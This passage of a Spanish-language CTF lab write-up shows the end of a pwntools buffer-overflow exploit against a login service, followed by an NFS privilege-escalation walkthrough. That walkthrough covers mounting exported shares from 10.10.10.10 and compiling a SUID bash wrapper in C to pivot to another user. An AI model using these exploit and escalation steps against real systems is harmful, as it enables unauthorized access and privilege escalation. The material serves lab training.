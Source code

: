 ```

p.recvuntil(b"OK Ready. Send USER command.")
p.sendline(b"USER admin")
p.recvuntil(b"OK Send PASS command.")
p.sendline(b"PASS" + before_eip + EIP + buf)

p.interactive()
```


-------------
#### NFSv3 Privesc 
Reviesando los privilegios que tenemos a nivel de Sudoers encontramos uno:
```
$ sudo -l
Matching Defaults entries for nobody on this host:
    !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION
    LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
    _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User nobody may run the following commands on this host:
    (frank) NOPASSWD: /opt/logreader/logreader.sh
```

Bien, con esto aún no podemos llegar a nada, asi que falta enumerar más. Si volvemos a los puertos que estaban abiertos, vemos que estaba el **NFS**:
![[Pasted image 20230804044432.png]]

Pues ahora con `showmount -e` podemos listar los directorios que podemos montar de manera local:
```
# showmount -e 10.10.10.10
```

Y podemos montar estos directorios:
```
# mount -t nfs 10.10.10.10:/opt /mnt/opt && mount -t nfs 10.10.10.10:/var/nfsshare /mnt/shares
```

Si listamos los permisos de estos directorios, vemos que como el indentificador **1000** pertenece a nuestro usuario a nivel de sistema, podemos atravesar uno de estos directorios y además escribir archivos:
![[Pasted image 20230804044525.png]]

Podemos listar el archivo creado en la maquina victima **/var/nfsshare/archivo** y podriamos ver quien creo el archivo:
![[Pasted image 20230804044553.png]]

Vemos que lo creo **Frank**, entonces, podemos crear un archivo que nos ejecute una bash y otorgarle el privilegio **SUID** para ejecutarlo como el usuario **Frank** y pivotar al usuario:
```c
#include <stdio.h>
#include <stdlib.h>

int main(void){
	setreuid(1000, 1000);
	system("/bin/bash");
	return 0;
}
```
